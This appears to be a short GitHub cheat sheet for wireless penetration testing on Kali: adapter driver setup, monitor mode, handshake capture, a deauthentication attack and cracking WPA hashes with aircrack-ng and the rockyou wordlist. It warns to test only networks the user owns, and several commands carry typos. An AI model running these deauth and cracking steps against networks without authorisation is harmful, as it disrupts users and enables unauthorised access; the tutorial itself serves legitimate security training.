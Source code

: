 # Wireless Penetration Testing

## Installing Drivers AWUS036ACH on Kali 2022.2

[AirCrack-NG Website](https://github.com/aircrack-ng/rtl8812au)

```
sudu su
apt-get update
apt-get upgrade
apt-get dist-upgrade
reboot
apt-get install realtek-rtl88xxau-dkms
apt-get install dkms
git clone https://github.com/aircrack-ng/rtl8812au.git
cd rtl8812au/
make
make install
```

## Check if adapter is on
```
airmon-ng
```

## Check other services
```
airmon-ng check
```

## Check kill services (could interfere with monitor mode)
```
airmon-ng check kill
```

## Check if adapter is available
```
iwconfig
```

## Start airmon-ng <interface>
```
airmon-ng start wlan0
iwconfig

At this point, should see our wlan0 card in monitor mode (wlan0mon)
```

## See what Access Points are running
```
airodump-ng wlan0
Ctrl + C to stop
```

## Capture Handshake
- **(NOTE: This is for testing purposes only, do NOT capture packets for wireless networks that you don't own)**

```
airodump --bssid <mac address of ap> --channel <id> wlan0 --output-format pcap --write <name of pcap>
```

## Deauthentication Attack
- **(NOTE: This is for testing purposes only, do NOT capture packets for wireless networks that you don't own)**
```
aireplay-ng -0 1 -a <mac addredss of ap> -c <mac address of client> wlan0
```

## Stop airomon-ng <interface>
```
airmon-ng stop wlan0
```

## Audit password strength of captured network hash
- **(NOTE: This is for testing purposes only, do NOT capture packets for wireless networks that you don't own)**
```
aircrack-ng <name of pcap> -w /usr/share/wordlists/rockyou.txt
```